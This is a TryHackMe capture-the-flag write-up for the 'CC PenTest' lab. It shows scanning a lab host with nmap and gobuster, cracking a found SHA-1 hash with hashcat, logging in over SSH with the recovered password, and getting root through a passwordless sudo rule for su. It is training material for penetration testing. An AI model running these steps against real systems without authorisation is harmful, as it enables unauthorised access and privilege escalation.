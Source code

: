 #+TITLE: TryHackMe - CC PenTest writeup

* Port scan

	#+begin_src shell
		nmap -p- -T4 -vv 10.10.203.54
		nmap -sC -sV -p 22,80 10.10.203.54
	#+end_src

	Found 2 open ports: 22 for SSH, 80 for a web server.

* Web path scan

	#+begin_src shell
		gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.203.54
		gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.203.54/secret -x txt
	#+end_src

	Found `/secret` with first pass of gobuster, and found `/secret/secret.txt` with second pass.

	`/secret/secret.txt` contains 'nyan:046385855FC9580393853D8E81F240B66FE9A7B8'.

* Hash cracking

	`hashid`	identifies '046385855FC9580393853D8E81F240B66FE9A7B8' as a SHA-1 hash.

	#+begin_src shell
		hashid 046385855FC9580393853D8E81F240B66FE9A7B8
		hashcat -m 100 --wordlist /usr/share/wordlists/rockyou.txt 046385855FC9580393853D8E81F240B66FE9A7B8

		# 046385855fc9580393853d8e81f240b66fe9a7b8:nyan
	#+end_src

* User.txt

	Let's try to connect the previously found SSH service as 'nyan:nyan'!

	#+begin_src shell
		ssh nyan@10.10.203.54
		cat user.txt
	#+end_src

	This works, and the flag is in 'user.txt'!

* Privilege escalation

	The file '.sudo_as_admin_successful' gives a hint, and `sudo -l` gives a quick win:

	#+begin_src shell
		sudo -l

		User nyan may run the following commands on ubuntu:
		(root) NOPASSWD: /bin/su

		sudo su # gives root!
	#+end_src

	And the flag is now accessible in '/root/root.txt'!
